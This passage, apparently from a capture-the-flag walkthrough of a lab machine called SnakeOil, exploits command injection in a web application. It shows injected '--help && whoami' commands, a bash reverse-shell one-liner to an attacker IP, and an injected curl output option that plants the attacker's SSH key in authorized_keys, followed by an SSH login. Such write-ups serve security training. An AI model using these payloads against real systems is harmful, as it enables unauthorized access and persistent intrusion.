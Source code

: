 ![image11.png]({{site.baseurl}}/Images/vb-snakeoil/IMAGE11.png)

This looks more like standard output, so lets use this command to chain our commands:

```
--help && whoami
```

![image12.png]({{site.baseurl}}/Images/vb-snakeoil/IMAGE12.png)

The application is running as patrick! Lets try to turn this into a shell.

```
--help && bash -i >& /dev/tcp/192.168.1.162/443 0>&1;
```

![image13.png]({{site.baseurl}}/Images/vb-snakeoil/IMAGE13.png)

Interesting. There are some additional protections in place.. that's annoying. There is a whitelist in place to block keywords, but we have code execution, and we saw ssh on the box earlier.. time to find the key.

```
--help && ls -la /home/patrick/.ssh;
```

There was nothing in the /.ssh directory, but we might be able to put our own public key there.
Lets create a public key.

```
ssh-keygen
vim authorized_keys
```
add our public key to that file and now to get it on the target:

Back in Burp set the body of the request to:
```
{
"url": "192.168.1.162:8000/authorized_keys -o /home/patrick/.ssh/authorized_keys;",
"secret_key": "commandexecutionissecret"
}
```

On our attack machine we can see that the file was downloaded.

```
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.1.166 - - [04/Oct/2021 12:22:21] "GET /authorized_keys HTTP/1.1" 200 -
```

and we can confirm it by re-running our ls.

![image14.png]({{site.baseurl}}/Images/vb-snakeoil/IMAGE14.png)

Now all we need to do is connect with our private key and we we are in!

```
ssh -i thoseguys patrick@$TARGETIP
Linux SNAKEOIL 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
patrick@SNAKEOIL:~$
```
